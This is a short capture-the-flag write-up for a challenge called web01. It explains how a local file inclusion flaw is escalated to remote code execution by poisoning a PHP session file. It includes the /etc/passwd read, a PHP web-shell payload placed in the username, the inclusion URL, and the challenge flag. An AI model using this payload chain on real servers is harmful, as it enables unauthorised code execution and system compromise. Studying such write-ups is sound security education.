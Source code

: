 # web01 (Point: 210)

![web01](images/1.1.png)

## TL;DR

**LFI to RCE via session file**

## Vulnerability

### LFI

* http://15.165.80.50/?page=register was the register page
* http://15.165.80.50/?page=/./etc/passwd spit the passwd file, thus LFI confirmed

![web01.2](images/1.2.png)

Now we just need a file with our controlled content and include it to execute php.

Server uses session to identify the user and this session is maintained by server in a session file located at /var/lib/php/sessions/sess_PHPSESSID

So when we log in with the following username, our username will be stored in `/var/lib/php/sessions/sess_PHPSESSID` and thus we can include it to execute arbritrary php
```
username = <?php system($_GET[EXP]); ?>
```
![web01.3](images/1.3.png)

### EXPLOIT

* Login into web app to make server write your username in session file and note the PHPSESSID Cookie (in my case PHPSESSID:9evgl9q9m3c9ct6hl3599js7j4)
* include the file http://15.165.80.50/?page=/./var/lib/php/sessions/sess_9evgl9q9m3c9ct6hl3599js7j4 and we have shell.

### FLag

![web1.4](images/1.4.png)

* WhiteHat{Local_File_Inclusion_bad_enough_??} 


